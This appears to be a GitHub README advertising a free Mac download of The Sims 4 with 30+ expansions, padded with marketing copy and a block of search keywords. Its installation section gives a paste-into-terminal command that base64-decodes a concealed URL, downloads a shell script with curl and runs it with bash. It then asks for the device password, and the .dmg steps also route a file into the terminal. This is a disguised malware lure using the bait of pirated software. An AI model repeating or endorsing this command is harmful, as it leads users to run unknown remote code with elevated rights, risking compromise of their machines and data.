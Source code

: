# The Sims 4 Mac Download - The Ultimate Life Simulation Experience    

![The Sims 4 Mac Screenshot](https://cdn.cultofmac.com/wp-content/uploads/2019/05/ACCCD8A0-0225-4BB0-AB07-E5F875AD1039.jpeg)  

---  

## 🔽 Download The Sims 4 for Mac

[![Download Now](https://img.shields.io/badge/Download_The-Sims-4-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/thesims4)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

--- 

## What is The Sims 4 for Mac?  

The Sims 4 is the premier life simulation game where you craft distinctive characters, design dream homes, and guide their lives with unparalleled freedom. This Mac edition delivers the complete package with all additional content seamlessly integrated and optimized for macOS performance.  

Unlike standard versions, this definitive edition includes **30+ expansion packs and DLCs** pre-installed, granting instant access to every world, career path, and gameplay enhancement. The game has been meticulously optimized for **Apple Silicon (M1/M2/M3 chips)**, featuring dramatically reduced loading times and buttery-smooth performance across all systems.  

Experience **total creative control** as you architect lavish estates with all build/buy items unlocked from the start, mold Sims with deep customization tools, and explore every expansion's content without limitations. The Sims 4 for Mac fully supports **custom content and mods**, empowering you to tailor your gameplay with thousands of community creations.  

From slice-of-life storytelling to fantastical adventures, The Sims 4 offers **endless narrative possibilities** on macOS. Enjoy cross-platform compatibility with Windows saves and take advantage of native macOS features like Metal graphics acceleration for stunning visual fidelity.  

Whether you're a longtime fan or new to the series, this Mac version provides the most complete and polished Sims experience available today - with all updates and bonus content included from the moment.  

![The Sims 4 Gameplay](https://imag.malavida.com/mvimgbig/download-fs/los-sims-4-18353-1.jpg)  

---  

## Key Features & Benefits  

- 🏡 **Complete Collection** with 30+ expansion packs  
- 🍏 **Optimized** for Apple Silicon (M1/M2) and Intel Macs  
- 🎭 **Unlimited customization** for Sims and homes  
- 🌎 **All worlds and careers unlocked**  
- 🛠️ **Full mod and custom content support**  
- ⚡ **Smooth performance** on macOS  

Whether you're a longtime fan or new to the series, The Sims 4 for Mac offers **endless hours** of creative gameplay and storytelling possibilities.  

---  

## 🔍 Keywords  

The Sims 4 for Mac, The Sims 4 Mac Download, The Sims 4 for Mac Download, The Sims 4 Mac, The Sims 4 Download Mac, The Sims 4 Download for Mac, the sims 4 full version, Mac Download The Sims 4, Download Mac The Sims 4, Download The Sims 4 Mac, Download The Sims 4 for Mac 
